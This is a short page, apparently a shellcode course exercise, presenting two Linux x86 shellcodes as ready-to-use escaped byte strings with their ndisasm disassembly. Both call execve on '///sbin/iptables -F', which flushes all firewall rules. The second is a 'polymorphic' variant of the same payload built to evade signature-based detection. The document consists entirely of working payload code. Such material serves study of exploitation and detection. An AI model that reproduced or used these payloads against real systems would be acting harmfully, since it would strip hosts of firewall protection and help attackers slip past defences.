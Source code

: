 ## Initial nasm code

Length: 43 bytes

Obtain from running: 

echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" | ndisasm -u -
  
    00000000  31C0              xor eax,eax
    00000002  50                push eax
    00000003  66682D46          push word 0x462d
    00000007  89E6              mov esi,esp
    00000009  50                push eax
    0000000A  68626C6573        push dword 0x73656c62
    0000000F  6869707461        push dword 0x61747069
    00000014  6862696E2F        push dword 0x2f6e6962
    00000019  682F2F2F73        push dword 0x732f2f2f
    0000001E  89E3              mov ebx,esp
    00000020  50                push eax
    00000021  56                push esi
    00000022  53                push ebx
    00000023  89E1              mov ecx,esp
    00000025  89C2              mov edx,eax
    00000027  B00B              mov al,0xb
    00000029  CD80              int 0x80
    
  
 ## Polymorphic shellcode

Length: 45 bytes

Obtain from running: 

echo -ne "\x51\x66\x68\x2d\x46\x8d\x75\xde\x51\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x8d\x5e\xec\x51\x56\x53\x8d\x4b\xf4\x31\xd2\x6a\x0b\x58\xcd\x80" | ndisasm -u -

    00000000  51                push ecx
    00000001  66682D46          push word 0x462d
    00000005  8D75DE            lea esi,[ebp-0x22]
    00000008  51                push ecx
    00000009  68626C6573        push dword 0x73656c62
    0000000E  6869707461        push dword 0x61747069
    00000013  6862696E2F        push dword 0x2f6e6962
    00000018  682F2F2F73        push dword 0x732f2f2f
    0000001D  8D5EEC            lea ebx,[esi-0x14]
    00000020  51                push ecx
    00000021  56                push esi
    00000022  53                push ebx
    00000023  8D4BF4            lea ecx,[ebx-0xc]
    00000026  31D2              xor edx,edx
    00000028  6A0B              push byte +0xb
    0000002A  58                pop eax
    0000002B  CD80              int 0x80
